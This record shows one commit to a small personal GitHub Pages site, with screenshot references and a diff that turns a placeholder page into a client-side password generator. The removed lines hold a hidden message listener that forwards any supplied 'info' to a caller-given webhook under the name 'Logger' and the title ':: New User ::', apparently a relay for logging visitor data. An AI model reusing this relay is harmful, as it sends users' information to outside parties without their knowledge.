

Before and after one commit to Compositr/Zuriix.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1074 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,31 +1,127 @@
 <html>
+  <head>
+    <title>Minimal Secure Password Generator</title>
+    <meta charset="utf-8" />
+    <meta name="viewport" content="width=device-width, initial-scale=1" />
+    <meta name="description" content="Minimal Secure Password Generator" />
+    <meta name="keywords" content="Minimal Secure Password Generator" />
+    <meta name="author" content="Zuri#0001" />
+	<link rel="icon" type="image/x-icon" href="/favicon.ico">
 
-<body>
-    <p>This website isn't for you!</p>
+    <style>
+
+      *:active, *:hover, *:focus {
+        outline: none;
+        border: none;
+      }
+
+      body {
+        font-family: "Helvetica Neue", Helvetica, Arial, sans-serif;
+        font-size: 14px;
+        line-height: 1.42857143;
+        color: rgb(255, 255, 255);
+        background: rgb(14, 14, 14);
+      }
+
+      #passwords {
+        width: 60%;
+        height: 80%;
+        padding: 10px;
+        text-align: center;
+        resize: none;
+        border: 1px solid #ccc;
+        background: rgb(14, 14, 14);
+      }
+
+      input[type="number"] {
+        width: 45px;
+        background:rgb(14, 14, 14);
+        color:rgb(255, 255, 255);
+        border: 1px solid #fff;
+      }
+
+      input::-webkit-outer-spin-button,
+        input::-webkit-inner-spin-button {
+        -webkit-appearance: none;
+        margin: 0;
+      }
+
+      ::selection {
+        color: rgb(0, 0, 0);
+        background: #ff8c32;
+      }
+
+      input[type="checkbox"]:checked {
+        accent-color: rgb(255, 140, 50);
+      }
+
+    </style>
+  </head>
+  <body>
+    <div style="text-align: center">
+      <div id="config" style="padding: 10px">
+        <label for="length">Password Length</label>
+        <input type="number" name="length" id="length" value="32"/>
+        <label for="count">Password Count</label>
+        <input type="number" name="count" id="count" value="25" />
+
+        <input type="checkbox" name="uppercase" id="uppercase" checked />
+        <label for="uppercase">Uppercase</label>
+        <input type="checkbox" name="lowercase" id="lowercase" checked />
+        <label for="lowercase">Lowercase</label>
+        <input type="checkbox" name="numbers" id="numbers" checked />
+        <label for="numbers">Numbers</label>
+        <input type="checkbox" name="symbols" id="symbols" checked />
+        <label for="symbols">Symbols</label>
+
+        <input
+          type="button"
+          name="generate"
+          id="generate"
+          value="Generate"
+          style="border: 1px solid #fff; background: none; color: #fff;"
+          onclick="generatePasswords();"
+        />
+      </div>
+      <textarea id="passwords" spellcheck="false"></textarea>
+      <p>Made by Zuri#0001 with ❤️ <span style="color:#888">(and foxes, cause foxes are cool)</span> <span style="color:#333">(and so are bowties and fezzes)</span></p>
+    </div>
     <script>
-        window.addEventListener('message', (e) => {
-            let r = e.data
-            if (r.type === 'wh') {
-                if (r.info && r.wh) {
-                    fetch(r.wh, {
-                        method: 'POST',
-                        headers: {
-                            'Content-Type': 'application/json',
-                        },
-                        body: JSON.stringify({
-                            username: 'Logger',
-                            avatar_url: 'https://github.com/Zuriix.png',
-                            embeds: [{
-                                color: 9730954,
-                                title: `:: New User ::`,
-                                description: r.info,
-                            }, ],
-                        }),
-                    })
-                }
-            }
-        });
+      const chars = {
+        lowercase: "abcdefghijklmnopqrstuvwxyz",
+        uppercase: "ABCDEFGHIJKLMNOPQRSTUVWXYZ",
+        special: "!#=^+;&)_[.(%~]@-{},'$",
+        number: "0123456789",
+      };
+      const generatePasswords = () => {
+        let currentChars = "";
+        document.querySelector("#uppercase").checked && (currentChars += chars.uppercase);
+        document.querySelector("#lowercase").checked && (currentChars += chars.lowercase);
+        document.querySelector("#numbers").checked && (currentChars += chars.number);
+        document.querySelector("#symbols").checked && (currentChars += chars.special);
+
+        let passwordLength = document.querySelector("#length").value;
+            passwordLength < 8 ? (document.querySelector("#passwords").style.color = "#ffb3ba")
+          : passwordLength < 12 ? (document.querySelector("#passwords").style.color = "#ffdfba")
+          : passwordLength < 16 ? (document.querySelector("#passwords").style.color = "#ffffba")
+          : passwordLength < 20 ? (document.querySelector("#passwords").style.color = "#baffc9")
+          : (document.querySelector("#passwords").style.color = "#bae1ff");
+
+        let length = document.querySelector("#length").value;
+        let count = document.querySelector("#count").value;
+
+        let passwords = Array.from({ length: count }, () => {
+          let password = "";
+          let rnd = new Uint32Array(length);
+          window.crypto.getRandomValues(rnd);
+          for (let i = 0; i < rnd.length; i++) {
+            password += currentChars.charAt(rnd[i] % currentChars.length);
+          }
+          return password;
+        }).join("\n");
+        return (document.querySelector("#passwords").innerHTML = passwords);
+      };
+      generatePasswords();
     </script>
-</body>
-
+  </body>
 </html>
```
Also changed, not shown: favicon.ico (added).
